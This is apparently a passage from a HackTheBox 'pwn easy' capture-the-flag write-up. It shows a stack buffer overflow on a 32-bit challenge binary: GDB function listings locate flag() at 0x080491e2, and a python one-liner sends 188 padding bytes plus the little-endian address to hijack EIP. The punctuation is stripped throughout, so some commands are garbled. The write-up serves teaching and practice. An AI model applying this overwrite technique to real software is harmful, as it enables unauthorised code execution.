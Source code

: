     Flag   Debug

With the EIP register successfully overwritten  the next step is to control it such that it points to the flag   function  Before determining where this function lies in memory  it is imperative to first establish that this binary is in little endian format 

   highlight bash   
       0xd4y Writeup     business hackthebox challenges pwn easy you know   
      file vulnvuln  ELF 32 bit LSB executable  Intel 80386  version 1  SYSV   dynamically linked  interpreter  lib ld linux so 2  BuildID sha1  ab7f19bb67c16ae453d4959fba4e6841d930a6dd  for GNU Linux 3 2 0  not stripped
   endhighlight   

After finding out that this binary is an LSB executable  the next step is to discover where flag   is in memory  This can be done with the info functions command within GDB 

   highlight bash   
pwndbg  info functions  
All defined functions   
  
Non debugging symbols   
0x08049000   init  
0x08049030  printf plt  
0x08049040  gets plt  
0x08049050  fgets plt  
0x08049060  getegid plt  
0x08049070  puts plt  
0x08049080  exit plt  
0x08049090    libc start main plt  
0x080490a0  setvbuf plt  
0x080490b0  fopen plt  
0x080490c0  setresgid plt  
0x080490d0   start  
0x08049110   dl relocate static pie  
0x08049120    x86 get pc thunk bx  
0x08049130  deregister tm clones  
0x08049170  register tm clones  
0x080491b0    do global dtors aux  
0x080491e0  frame dummy  
0x080491e2  flag  
0x08049272  vuln  
0x080492b1  main  
0x08049330    libc csu init  
0x08049390    libc csu fini  
0x08049391    x86 get pc thunk bp  
0x08049398   fini
   endhighlight   

Note the functions of interest which are in red

Flag   is at 0x080491e2 which in little endian byte format is xe2x91x04x08  Therefore  upon inputting a string of 188 bytes followed by the address of the flag  the program should call the function 

   highlight bash   
   0xd4y Writeup     business hackthebox challenges pwn easy you know   
      python  c  print  A  188    xe2x91x04x08     eip flag
   endhighlight   
